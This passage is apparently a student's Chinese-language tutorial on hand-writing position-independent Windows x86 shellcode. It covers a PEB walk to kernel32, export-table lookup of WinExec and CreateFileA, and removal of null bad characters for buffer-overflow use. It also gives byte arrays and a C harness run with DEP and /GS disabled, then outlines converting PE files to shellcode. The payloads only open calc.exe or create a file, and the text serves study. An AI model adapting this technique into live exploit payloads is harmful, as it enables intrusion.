目前的 shellcode 基本上已经写完了，整体如下：

```asm
format PE console
use32
entry start
start:
    ; establish a new stack frame
    pushad
    push ebp
    mov ebp, esp

    sub esp, 0x18           ; alloc for local variables
    
    xor esi, esi
    push esi                ; null terminated
    push 0x63
    pushw 0x6578
    push 0x456e6957
    mov [ebp - 4], esp      ; var4 = "WinExec\x00"

    ; find kernel32.dll
    mov ebx, [fs:0x30]
    mov ebx, [ebx + 0x0c]   ; &PEB_LDR_DATA
    mov ebx, [ebx + 0x14]   ; &InMemoryModuleList
    mov ebx, [ebx]          ; InMemoryOrderModuleList->next(ntdll.dll)
    mov ebx, [ebx]          ; InMemoryOrderModuleList->next->next(kernel32.dll)
    mov ebx, [ebx + 0x10]   ; InMemoryOrderModuleList->next->next->base
    mov [ebp - 8], ebx      ; var8 = kernel32.dll base address

    ; find WinExec Address
    mov eax, [ebx + 0x3c]   ; RVA of PE signature
    add eax, ebx            ; Address of PE signature
    mov eax, [eax + 0x78]   ; RVA of Export Table
    add eax, ebx            ; Address of Export Table

    mov ecx, [eax + 0x24]   ; RVA of Ordinal Table
    add ecx, ebx            ; address of Ordinal Table
    mov [ebp - 0x0c], ecx   ; var12 = address of Ordinal Table

    mov edi, [eax + 0x20]   ; RVA of Name Pointer Table
    add edi, ebx            ; address of Name Pointer Table
    mov [ebp - 0x10], edi   ; var16 = address of Name Pointer Table

    mov edx, [eax + 0x1c]   ; RVA of Address Table
    add edx, ebx            ; Address of Address Table
    mov [ebp - 0x14], edx   ; var20 = address of Address Table

    mov edx, [eax + 0x14]   ; Number of exported functions

    xor eax, eax            ; counter = 0
.loop:
    mov edi, [ebp - 0x10]   ; edi = var16 = address of Name Pointer Table
    mov esi, [ebp - 4]      ; esi = var4 = "WinExec\x00"
    xor ecx, ecx

    cld                     ; set DF = 0 process string left to right
    mov edi, [edi + eax * 4]; Entry of Name Pointer Table is 4 bytes long

    add edi, ebx            ; address of string
    add cx, 8               ; length to compare
    repe cmpsb              ; compare first 8 bytes in
                            ; esi and edi. ZF=1 if equal, ZF=0 if not
    jz start.found

    inc eax                 ; counter++
    cmp eax, edx            ; check if last function is reached
    jb start.loop

    add esp, 0x26
    jmp start.end           ; not found, jmp to end
.found:
    ;  eax holds the position
    mov ecx, [ebp - 0x0c]   ; ecx = var12 = address of Ordinal Table
    mov edx, [ebp - 0x14]   ; edx = var20 = address of Address Table

    mov ax, [ecx + eax * 2] ; ax = ordinal number
    mov eax, [edx + eax * 4]; eax = RVA of function
    add eax, ebx            ; eax = address of fuction
    ; call function
    xor edx, edx
    push edx		        ; null termination
    push 6578652eh
    push 636c6163h
    push 5c32336dh
    push 65747379h
    push 535c7377h
    push 6f646e69h
    push 575c3a43h
    mov esi, esp            ; esi -> "C:\Windows\System32\calc.exe"
    
    push 10                 ; window state SW_SHOWDEFAULT
    push esi                ; "C:\Windows\System32\calc.exe"
    call eax                ; WinExec
    add esp, 0x46           ; clear the stack

.end:
    pop ebp
    popad
    ret
```

到这里 shellcode 已经可以编译运行了，使用 `fasm` 进行编译

```shell
fasm shellcode.asm shellcode.exe
```

运行 shellcode，可以看到成功弹出计算器。

如果对于整个过程还有不理解的地方，可以在 x32dbg 中动态调试 shellcode。



**问题 1 shellcode 坏字符**

使用 objdump 反汇编 shellcode.exe

```shell
objdump -d -M intel shellcode.exe
```

结果：

```shell
PS C:\Users\way\source\repos\PEinjection\PEinjection> objdump.exe -d -M intel .\shellcode.exe

.\shellcode.exe:     file format pei-i386      


Disassembly of section .flat:

00401000 <.flat>:
  401000:       60                      pusha  
  401001:       55                      push   ebp    
  401002:       89 e5                   mov    ebp,esp
  401004:       83 ec 18                sub    esp,0x18
  401007:       31 f6                   xor    esi,esi 
  401009:       56                      push   esi   
  40100a:       6a 63                   push   0x63  
  40100c:       66 68 78 65             pushw  0x6578
  401010:       68 57 69 6e 45          push   0x456e6957 
  401015:       89 65 fc                mov    DWORD PTR [ebp-0x4],esp
  401018:       64 8b 1d 30 00 00 00    mov    ebx,DWORD PTR fs:0x30  
  40101f:       8b 5b 0c                mov    ebx,DWORD PTR [ebx+0xc]
  401022:       8b 5b 14                mov    ebx,DWORD PTR [ebx+0x14]
  401025:       8b 1b                   mov    ebx,DWORD PTR [ebx]     
  401027:       8b 1b                   mov    ebx,DWORD PTR [ebx]     
  401029:       8b 5b 10                mov    ebx,DWORD PTR [ebx+0x10]
  40102c:       89 5d f8                mov    DWORD PTR [ebp-0x8],ebx
  40102f:       8b 43 3c                mov    eax,DWORD PTR [ebx+0x3c]
  401032:       01 d8                   add    eax,ebx
  401034:       8b 40 78                mov    eax,DWORD PTR [eax+0x78]
  401037:       01 d8                   add    eax,ebx
  401039:       8b 48 24                mov    ecx,DWORD PTR [eax+0x24]
  40103c:       01 d9                   add    ecx,ebx
  40103e:       89 4d f4                mov    DWORD PTR [ebp-0xc],ecx
  401041:       8b 78 20                mov    edi,DWORD PTR [eax+0x20]
  401044:       01 df                   add    edi,ebx
  401046:       89 7d f0                mov    DWORD PTR [ebp-0x10],edi
  401049:       8b 50 1c                mov    edx,DWORD PTR [eax+0x1c]
  40104c:       01 da                   add    edx,ebx
  40104e:       89 55 ec                mov    DWORD PTR [ebp-0x14],edx
  401051:       8b 50 14                mov    edx,DWORD PTR [eax+0x14]
  401054:       31 c0                   xor    eax,eax
  401056:       8b 7d f0                mov    edi,DWORD PTR [ebp-0x10]
  401059:       8b 75 fc                mov    esi,DWORD PTR [ebp-0x4]
  40105c:       31 c9                   xor    ecx,ecx
  40105e:       fc                      cld    
  40105f:       8b 3c 87                mov    edi,DWORD PTR [edi+eax*4]
  401062:       01 df                   add    edi,ebx
  401064:       66 83 c1 08             add    cx,0x8
  401068:       f3 a6                   repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
  40106a:       74 0a                   je     0x401076
  40106c:       40                      inc    eax
  40106d:       39 d0                   cmp    eax,edx
  40106f:       72 e5                   jb     0x401056
  401071:       83 c4 26                add    esp,0x26
  401074:       eb 3f                   jmp    0x4010b5
  401076:       8b 4d f4                mov    ecx,DWORD PTR [ebp-0xc]
  401079:       8b 55 ec                mov    edx,DWORD PTR [ebp-0x14]
  40107c:       66 8b 04 41             mov    ax,WORD PTR [ecx+eax*2]
  401080:       8b 04 82                mov    eax,DWORD PTR [edx+eax*4]
  401083:       01 d8                   add    eax,ebx
  401085:       31 d2                   xor    edx,edx
  401087:       52                      push   edx
  401088:       68 2e 65 78 65          push   0x6578652e
  40108d:       68 63 61 6c 63          push   0x636c6163
  401092:       68 6d 33 32 5c          push   0x5c32336d
  401097:       68 79 73 74 65          push   0x65747379
  40109c:       68 77 73 5c 53          push   0x535c7377
  4010a1:       68 69 6e 64 6f          push   0x6f646e69
  4010a6:       68 43 3a 5c 57          push   0x575c3a43
  4010ab:       89 e6                   mov    esi,esp
  4010ad:       6a 0a                   push   0xa
  4010af:       56                      push   esi
  4010b0:       ff d0                   call   eax
  4010b2:       83 c4 46                add    esp,0x46
  4010b5:       5d                      pop    ebp
  4010b6:       61                      popa   
  4010b7:       c3                      ret
```

可以看到 401018 地址处的指令：

```shell
  401018:       64 8b 1d 30 00 00 00    mov    ebx,DWORD PTR fs:0x30
```

这条指令包含了 0x00 坏字符。使用 WinREPL 也可以看到对应的机器码：



包含 0x00 会使得 shellcode 在缓冲区溢出攻击上没那么有用，可以通过改变寻址方式修改机器码。

将原代码修改为：

```asm
    xor esi, esi
    mov ebx, [fs:0x30 + esi]
```

objdump 结果：

```shell
  401018:       31 f6                   xor    esi,esi
  40101a:       64 8b 5e 30             mov    ebx,DWORD PTR fs:[esi+0x30]
```

成功消除了 0x00 坏字符。

**问题2 栈对齐**

下面的代码会导致栈对齐问题：

```asm
    xor esi, esi
    push esi                ; null terminated
    push 0x63
    pushw 0x6578
    push 0x456e6957
```

`push esi` 和 `push 0x63` 后，栈均是 4 字节对齐。`pushw 0x6578` 后，栈变为 2 字节对齐。`push 0x456e6957` 后，栈仍然是 2 字节对齐。这导致调用 `WinExec` 时，栈不是 4 字节对齐，在 Window 10 以下的版本运行 `shellcode` 就可能会出现问题。

为了说明这个问题，可以在 x32dbg 上进行调试



可以用下面的代码解决这个问题。每次 `push` 操作都使栈是 4 字节对齐。

```asm
    xor esi, esi
    push esi                ; null terminated
    push 0x636578
    push 0x456e6957
    mov [ebp - 4], esp      ; var4 = "WinExec\x00"
```

**问题3 问题 2 导致的坏字符**

上面的代码可以解决栈对齐的问题，但是带来了新的坏字符问题，下面是反汇编结果：

```shell
  401007:       31 f6                   xor    esi,esi
  401009:       56                      push   esi
  40100a:       68 78 65 63 00          push   0x636578
  40100f:       68 57 69 6e 45          push   0x456e6957
```

`push 0x636578` 指令出现了 0x00 坏字符，所以还需要再修改。

```asm
    xor esi, esi
    pushw si                ; null terminated
    push 0x63
    pushw 0x6578
    push 0x456e6957
```

这样修改，先 `push` 两个字节，再 `push` 四个字节，`push` 两个字节，`push` 四个字节，最终栈还是四字节对齐。对应的机器码：

```shell
  401007:       31 f6                   xor    esi,esi
  401009:       66 56                   push   si
  40100b:       6a 63                   push   0x63
  40100d:       66 68 78 65             pushw  0x6578
  401011:       68 57 69 6e 45          push   0x456e6957
```

可以看到成功消除了 0x00 坏字符。

最终的 shellcode：

```asm
format PE console
use32
entry start
start:
    ; establish a new stack frame
    pushad
    push ebp
    mov ebp, esp

    sub esp, 0x18           ; alloc for local variables
    
    xor esi, esi
    pushw si                ; null terminated
    push 0x63
    pushw 0x6578
    push 0x456e6957
    mov [ebp - 4], esp      ; var4 = "WinExec\x00"

    ; find kernel32.dll
    xor esi, esi
    mov ebx, [fs:0x30 + esi]
    mov ebx, [ebx + 0x0c]   ; &PEB_LDR_DATA
    mov ebx, [ebx + 0x14]   ; &InMemoryModuleList
    mov ebx, [ebx]          ; InMemoryOrderModuleList->next(ntdll.dll)
    mov ebx, [ebx]          ; InMemoryOrderModuleList->next->next(kernel32.dll)
    mov ebx, [ebx + 0x10]   ; InMemoryOrderModuleList->next->next->base
    mov [ebp - 8], ebx      ; var8 = kernel32.dll base address

    ; find WinExec Address
    mov eax, [ebx + 0x3c]   ; RVA of PE signature
    add eax, ebx            ; Address of PE signature
    mov eax, [eax + 0x78]   ; RVA of Export Table
    add eax, ebx            ; Address of Export Table

    mov ecx, [eax + 0x24]   ; RVA of Ordinal Table
    add ecx, ebx            ; address of Ordinal Table
    mov [ebp - 0x0c], ecx   ; var12 = address of Ordinal Table

    mov edi, [eax + 0x20]   ; RVA of Name Pointer Table
    add edi, ebx            ; address of Name Pointer Table
    mov [ebp - 0x10], edi   ; var16 = address of Name Pointer Table

    mov edx, [eax + 0x1c]   ; RVA of Address Table
    add edx, ebx            ; Address of Address Table
    mov [ebp - 0x14], edx   ; var20 = address of Address Table

    mov edx, [eax + 0x14]   ; Number of exported functions

    xor eax, eax            ; counter = 0
.loop:
    mov edi, [ebp - 0x10]   ; edi = var16 = address of Name Pointer Table
    mov esi, [ebp - 4]      ; esi = var4 = "WinExec\x00"
    xor ecx, ecx

    cld                     ; set DF = 0 process string left to right
    mov edi, [edi + eax * 4]; Entry of Name Pointer Table is 4 bytes long

    add edi, ebx            ; address of string
    add cx, 8               ; length to compare
    repe cmpsb              ; compare first 8 bytes in
                            ; esi and edi. ZF=1 if equal, ZF=0 if not
    jz start.found

    inc eax                 ; counter++
    cmp eax, edx            ; check if last function is reached
    jb start.loop

    add esp, 0x24
    jmp start.end           ; not found, jmp to end
.found:
    ;  eax holds the position
    mov ecx, [ebp - 0x0c]   ; ecx = var12 = address of Ordinal Table
    mov edx, [ebp - 0x14]   ; edx = var20 = address of Address Table

    mov ax, [ecx + eax * 2] ; ax = ordinal number
    mov eax, [edx + eax * 4]; eax = RVA of function
    add eax, ebx            ; eax = address of fuction
    ; call function
    xor edx, edx
    push edx		        ; null termination
    push 6578652eh
    push 636c6163h
    push 5c32336dh
    push 65747379h
    push 535c7377h
    push 6f646e69h
    push 575c3a43h
    mov esi, esp            ; esi -> "C:\Windows\System32\calc.exe"
    
    push 10                 ; window state SW_SHOWDEFAULT
    push esi                ; "C:\Windows\System32\calc.exe"
    call eax                ; WinExec
    add esp, 0x44           ; clear the stack

.end:
    pop ebp
    popad
    ret
```

#### shellcode 测试

可以使用 `010Editor` 等工具把编译好的目标文件中的代码提取出来，下面是我利用 `010Editor` 提取的结果：

```c
unsigned char sc[184] = {
    0x60, 0x55, 0x89, 0xE5, 0x83, 0xEC, 0x18, 0x31, 0xF6, 0x66, 0x56, 0x6A, 0x63, 0x66, 0x68, 0x78,
    0x65, 0x68, 0x57, 0x69, 0x6E, 0x45, 0x89, 0x65, 0xFC, 0x31, 0xF6, 0x64, 0x8B, 0x5E, 0x30, 0x8B,
    0x5B, 0x0C, 0x8B, 0x5B, 0x14, 0x8B, 0x1B, 0x8B, 0x1B, 0x8B, 0x5B, 0x10, 0x89, 0x5D, 0xF8, 0x8B,
    0x43, 0x3C, 0x01, 0xD8, 0x8B, 0x40, 0x78, 0x01, 0xD8, 0x8B, 0x48, 0x24, 0x01, 0xD9, 0x89, 0x4D,
    0xF4, 0x8B, 0x78, 0x20, 0x01, 0xDF, 0x89, 0x7D, 0xF0, 0x8B, 0x50, 0x1C, 0x01, 0xDA, 0x89, 0x55,
    0xEC, 0x8B, 0x50, 0x14, 0x31, 0xC0, 0x8B, 0x7D, 0xF0, 0x8B, 0x75, 0xFC, 0x31, 0xC9, 0xFC, 0x8B,
    0x3C, 0x87, 0x01, 0xDF, 0x66, 0x83, 0xC1, 0x08, 0xF3, 0xA6, 0x74, 0x0A, 0x40, 0x39, 0xD0, 0x72,
    0xE5, 0x83, 0xC4, 0x26, 0xEB, 0x3F, 0x8B, 0x4D, 0xF4, 0x8B, 0x55, 0xEC, 0x66, 0x8B, 0x04, 0x41,
    0x8B, 0x04, 0x82, 0x01, 0xD8, 0x31, 0xD2, 0x52, 0x68, 0x2E, 0x65, 0x78, 0x65, 0x68, 0x63, 0x61,
    0x6C, 0x63, 0x68, 0x6D, 0x33, 0x32, 0x5C, 0x68, 0x79, 0x73, 0x74, 0x65, 0x68, 0x77, 0x73, 0x5C,
    0x53, 0x68, 0x69, 0x6E, 0x64, 0x6F, 0x68, 0x43, 0x3A, 0x5C, 0x57, 0x89, 0xE6, 0x6A, 0x0A, 0x56,
    0xFF, 0xD0, 0x83, 0xC4, 0x46, 0x5D, 0x61, 0xC3 
};
```

然后编写测试程序，将 shellcode 解析为函数指针并调用。

```c
int main(int argc, char const *argv[])
{
    ((void(*)())sc)();
    return 0;
}
```

可以使用 `gcc` 编译，或者使用 `msvc` 编译。使用 `msvc` 编译时要加上 `/GS-` 参数关闭安全检查并且关闭 DEP 防护。

编译后运行就会打开计算器程序。



#### 另外一个 shellcode

现在已经有一个调用 `WinExec` 函数打开计算机的 `shellcode`，同理，可以写一个调用 `CreateFileA` 函数创建文件的 `shellcode`。

1. 修改栈中 `WinExec` 字符串为 `OpenFileA`。

```asm
    xor esi, esi
    pushw si                ; null terminated   2bytes
    push 0x41               ; 4 bytes
    pushw 0x656c            ; 2 bytes
    push 0x69466574         ; 4 bytes
    push 0x61657243         ; 4 bytes
    mov [ebp - 4], esp      ; var4 = "CreateFileA\x00"
```

2. 修改比较字符串长度，释放堆栈的大小

```asm
    add cx, 11               ; length to compare
    ...
    add esp, 0x28           ; 0x18 + 2 + 4 + 2 + 4 + 4
    jmp start.end           ; not found, jmp to end
```

3. 修改调用函数部分的代码

```asm
    ; call function
    push 0x74		        ; null termination
    push 0x78742e67
    push 0x6e697867
    push 0x6e616869
    push 0x65772d34
    push 0x32333038
    push 0x30323033
    push 0x39313032
    mov esi, esp            ; esi -> "2019302080324-weihangxing.txt"
    
    xor edx, edx
    push edx                ; hTemplateFile = NULL
    mov dl, 0x80            ; edx = 0x80
    push edx                ; dwFlagsAndAttributes = FILE_ATTRIBUTE_NORMAL
    push 1                  ; dwCreationDisposition = CREATE_NEW
    xor edx, edx
    push edx                ; lpSecurityAttributes = NULL
    push edx                ; dwShareMode = do not share
    mov dl, 1
    sal edx, 30             ; edx = 1 << 30 = 0x40000000
    push edx                ; dwDesiredAccess = GENERIC_WRITE
    push esi                ; "2019302080324-weihangxing.txt"
    call eax                ; WinExec
    add esp, 0x48           ; clear the stack
                            ; 0x28 + 8 * 4 = 0x48
```

为了避免出现 0x00 字符，使用 `edx` 寄存器间接得到需要压入堆栈的值。

最终的修改后的 `shellcode` 为：

```asm
format PE console
use32
entry start
start:
    ; establish a new stack frame
    pushad
    push ebp
    mov ebp, esp

    sub esp, 0x18           ; alloc for local variables
    
    xor esi, esi
    pushw si                ; null terminated   2bytes
    push 0x41               ; 4 bytes
    pushw 0x656c            ; 2 bytes
    push 0x69466574         ; 4 bytes
    push 0x61657243         ; 4 bytes
    mov [ebp - 4], esp      ; var4 = "CreateFileA\x00"

    ; find kernel32.dll
    xor esi, esi
    mov ebx, [fs:0x30 + esi]
    mov ebx, [ebx + 0x0c]   ; &PEB_LDR_DATA
    mov ebx, [ebx + 0x14]   ; &InMemoryModuleList
    mov ebx, [ebx]          ; InMemoryOrderModuleList->next(ntdll.dll)
    mov ebx, [ebx]          ; InMemoryOrderModuleList->next->next(kernel32.dll)
    mov ebx, [ebx + 0x10]   ; InMemoryOrderModuleList->next->next->base
    mov [ebp - 8], ebx      ; var8 = kernel32.dll base address

    ; find CreateFileA Address
    mov eax, [ebx + 0x3c]   ; RVA of PE signature
    add eax, ebx            ; Address of PE signature
    mov eax, [eax + 0x78]   ; RVA of Export Table
    add eax, ebx            ; Address of Export Table

    mov ecx, [eax + 0x24]   ; RVA of Ordinal Table
    add ecx, ebx            ; address of Ordinal Table
    mov [ebp - 0x0c], ecx   ; var12 = address of Ordinal Table

    mov edi, [eax + 0x20]   ; RVA of Name Pointer Table
    add edi, ebx            ; address of Name Pointer Table
    mov [ebp - 0x10], edi   ; var16 = address of Name Pointer Table

    mov edx, [eax + 0x1c]   ; RVA of Address Table
    add edx, ebx            ; Address of Address Table
    mov [ebp - 0x14], edx   ; var20 = address of Address Table

    mov edx, [eax + 0x14]   ; Number of exported functions

    xor eax, eax            ; counter = 0
.loop:
    mov edi, [ebp - 0x10]   ; edi = var16 = address of Name Pointer Table
    mov esi, [ebp - 4]      ; esi = var4 = "WinExec\x00"
    xor ecx, ecx

    cld                     ; set DF = 0 process string left to right
    mov edi, [edi + eax * 4]; Entry of Name Pointer Table is 4 bytes long

    add edi, ebx            ; address of string
    add cx, 11               ; length to compare
    repe cmpsb              ; compare first 8 bytes in
                            ; esi and edi. ZF=1 if equal, ZF=0 if not
    jz start.found

    inc eax                 ; counter++
    cmp eax, edx            ; check if last function is reached
    jb start.loop

    add esp, 0x28           ; 0x18 + 2 + 4 + 2 + 4 + 4
    jmp start.end           ; not found, jmp to end
.found:
    ;  eax holds the position
    mov ecx, [ebp - 0x0c]   ; ecx = var12 = address of Ordinal Table
    mov edx, [ebp - 0x14]   ; edx = var20 = address of Address Table

    mov ax, [ecx + eax * 2] ; ax = ordinal number
    mov eax, [edx + eax * 4]; eax = RVA of function
    add eax, ebx            ; eax = address of fuction
    ; call function
    push 0x74		        ; null termination
    push 0x78742e67
    push 0x6e697867
    push 0x6e616869
    push 0x65772d34
    push 0x32333038
    push 0x30323033
    push 0x39313032
    mov esi, esp            ; esi -> "2019302080324-weihangxing.txt"
    
    xor edx, edx
    push edx                ; hTemplateFile = NULL
    mov dl, 0x80            ; edx = 0x80
    push edx                ; dwFlagsAndAttributes = FILE_ATTRIBUTE_NORMAL
    push 1                  ; dwCreationDisposition = CREATE_NEW
    xor edx, edx
    push edx                ; lpSecurityAttributes = NULL
    push edx                ; dwShareMode = do not share
    mov dl, 1
    sal edx, 30             ; edx = 1 << 30 = 0x40000000
    push edx                ; dwDesiredAccess = GENERIC_WRITE
    push esi                ; "2019302080324-weihangxing.txt"
    call eax                ; WinExec
    add esp, 0x48           ; clear the stack
                            ; 0x28 + 8 * 4 = 0x48

.end:
    pop ebp
    popad
    ret
```

使用 010 Editor 提取为 c 代码：

```c
unsigned char sc[204] = {
    0x60, 0x55, 0x89, 0xE5, 0x83, 0xEC, 0x18, 0x31, 0xF6, 0x66, 0x56, 0x6A, 0x41, 0x66, 0x68, 0x6C,
    0x65, 0x68, 0x74, 0x65, 0x46, 0x69, 0x68, 0x43, 0x72, 0x65, 0x61, 0x89, 0x65, 0xFC, 0x31, 0xF6,
    0x64, 0x8B, 0x5E, 0x30, 0x8B, 0x5B, 0x0C, 0x8B, 0x5B, 0x14, 0x8B, 0x1B, 0x8B, 0x1B, 0x8B, 0x5B,
    0x10, 0x89, 0x5D, 0xF8, 0x8B, 0x43, 0x3C, 0x01, 0xD8, 0x8B, 0x40, 0x78, 0x01, 0xD8, 0x8B, 0x48,
    0x24, 0x01, 0xD9, 0x89, 0x4D, 0xF4, 0x8B, 0x78, 0x20, 0x01, 0xDF, 0x89, 0x7D, 0xF0, 0x8B, 0x50,
    0x1C, 0x01, 0xDA, 0x89, 0x55, 0xEC, 0x8B, 0x50, 0x14, 0x31, 0xC0, 0x8B, 0x7D, 0xF0, 0x8B, 0x75,
    0xFC, 0x31, 0xC9, 0xFC, 0x8B, 0x3C, 0x87, 0x01, 0xDF, 0x66, 0x83, 0xC1, 0x0B, 0xF3, 0xA6, 0x74,
    0x0A, 0x40, 0x39, 0xD0, 0x72, 0xE5, 0x83, 0xC4, 0x28, 0xEB, 0x4E, 0x8B, 0x4D, 0xF4, 0x8B, 0x55,
    0xEC, 0x66, 0x8B, 0x04, 0x41, 0x8B, 0x04, 0x82, 0x01, 0xD8, 0x6A, 0x74, 0x68, 0x67, 0x2E, 0x74,
    0x78, 0x68, 0x67, 0x78, 0x69, 0x6E, 0x68, 0x69, 0x68, 0x61, 0x6E, 0x68, 0x34, 0x2D, 0x77, 0x65,
    0x68, 0x38, 0x30, 0x33, 0x32, 0x68, 0x33, 0x30, 0x32, 0x30, 0x68, 0x32, 0x30, 0x31, 0x39, 0x89,
    0xE6, 0x31, 0xD2, 0x52, 0xB2, 0x80, 0x52, 0x6A, 0x01, 0x31, 0xD2, 0x52, 0x52, 0xB2, 0x01, 0xC1,
    0xE2, 0x1E, 0x52, 0x56, 0xFF, 0xD0, 0x83, 0xC4, 0x48, 0x5D, 0x61, 0xC3 
};
```

编译运行 shellcode，可以看到成功创建了文件。



### PE 文件转 shellcode

能不能从 **PE 文件**直接生成 **shellcode** 呢？答案应该是可以，但是比较复杂。

为了实现从 PE 文件到 **shellcode** 的转换，有几个问题需要仔细考虑一下：

- 如何将 **PE 装载入内存**中
- 如何解决**引入 DLL** 的问题
- 如何解决**重定位**的问题

对于第一个问题，可以模拟 **PE 文件**加载到内存的过程，然后保存为新的 **PE 文件**。新的 **PE 文件**每个节的 **PointerToRaw** 和 **VirtualAddress** 是相等的。

有了前面手动编写 **shellcode** 的基础，后两个问题就变得较为简单。大概的步骤如下：

1. 找到 **kernel32.dll** 的地址
2. 找到 **GetProcAddress** 和 **LoadLibraryA** 的地址
3. 遍历 **Import Directory Table**
3. 使用 **LoadLibraryA** 加载所需的 **DLL** 文件
4. 遍历引入函数 **Import Name Table** 和 **Import Address Table**
4. 使用 **GetProcAddress** 得到**引入函数**的地址，填写 **Import Address Table**
7. 遍历 **Relocation Block**，手动重定位

这相当于手动写了一个较为简易的 **PE loader**，称为 **stub 程序**。**stub 程序**一般比较大，为了实现修改后的 **shellcode** 仍然是一个 **PE 文件**的目的，可以将 **stub 程序**附在 **PE 文件末尾**，修改 **PE 的 DOS header**，由修改后的 **PE DOS Header** 中的代码**跳转到 stub 程序**中。**stub 程序**完成**加载 DLL** 和**重定位**，然后**跳转到 PE 的 EntryPoint**。


但是，这种方式产生的 **shellcode** 是相当粗糙的，很有可能会产生 0x00 **坏字符**。同时，不是所有的 PE 文件都可以用这种方式转为 shellcode。如果 PE 文件本身**没有重定位表**，也就是说，PE 文件中**远过程调用** 的 **操作数**为函数在引入表的**虚拟地址**，这样的 PE 在转换时需要修改**远过程调用**的参数，比较复杂，就不能通过这种方式转为 shellcode。

下面详细说明这种方式的转换过程。

#### 模拟 PE 装载入内存的过程

**shellcode** 对于操作系统来说是一段数据，不会按照 **PE 文件**的方式去解析并加载进内存中。那么，**PE 文件**转为 **shellcode** 之前，我们需要手动完成这个映射过程。这样，**shellcode** 加载进内存后就相当于 **PE 文件**被加载进入内存中。

**PE 文件**装载的过程就是 PE 中每个节**映射到内存**的过程。

